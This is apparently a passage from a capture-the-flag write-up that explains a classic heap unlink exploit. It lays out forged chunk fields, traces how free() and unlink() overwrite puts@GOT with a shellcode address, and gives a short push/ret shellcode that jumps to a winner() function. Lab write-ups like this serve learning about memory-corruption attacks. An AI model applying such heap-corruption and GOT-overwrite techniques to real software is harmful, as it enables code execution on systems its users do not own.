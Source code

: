 ```
--------------------------------------------------------------- |----------------|----------------|----------------|
0x41414141                              JUNK                    |     SIZE_1     |      FD_2      |      BK_3      |
--------------------------------------------------------------- |----------------|----------------|----------------|
0x0804b11c               puts@GOT - 12, i.e. (0x0804b128-12)    |     FD_1       |      BK_2      |                
--------------------------------------------------------------- |----------------|----------------|
0x804c040                      address of SHELLCODE             |     BK_1       |    
--------------------------------------------------------------- |----------------|
```

```
What happens when we call free(c) ?

1) Check if the least significant bit of prev size is 0 or 1, in this case we have PREV_SIZE_2 == 0xfffffffc => LSB 0

2) Since LSB == 0 we have that the previous chunk is "free" and we have to unlink it,
    so we call unlink() on (c - PREV_SIZE_2), i.e. on (c + 4)
    
3) Let's see what happens when we call unlink(c + 4, BK_1, FD_1)

Remember that P->bk means P+12 and P->fd means P+8.

Here is a reminder on the unlink() macro:

#define unlink( P, BK, FD ) { \
    BK = P->bk;               \  
    FD = P->fd;               \
    FD->bk = BK;              \
    BK->fd = FD;              \
}

So...

unlink( c + 4, BK_1, FD_1 ) { 
    BK_1 = (c + 4)->bk;              
    FD_1 = (c + 4)->fd;            
    FD_1->bk = BK_1; // @(puts@GOT - 12 + 12) = (c + 4) + 12 = address of SHELLCODE (Yeee, we write our SHELLCODE @ puts@GOT!)
    BK_1->fd = FD_1;// @(address of SHELLCODE + 8) = (c + 4 + 8) = puts@GOT - 12 (But we don't care, this means that our SHELLCODE will be overwritten after 8 bytes! We need a SHELLCODE with a max length of 8 bytes!)
}
```

Our `SHELLCODE` will be:

```
shellcode = "\x68\x64\x88\x04\x08\xc3"

Which are the instructions for 

push 0x08048864
ret

Where 0x08048864 is the address of winner()
```
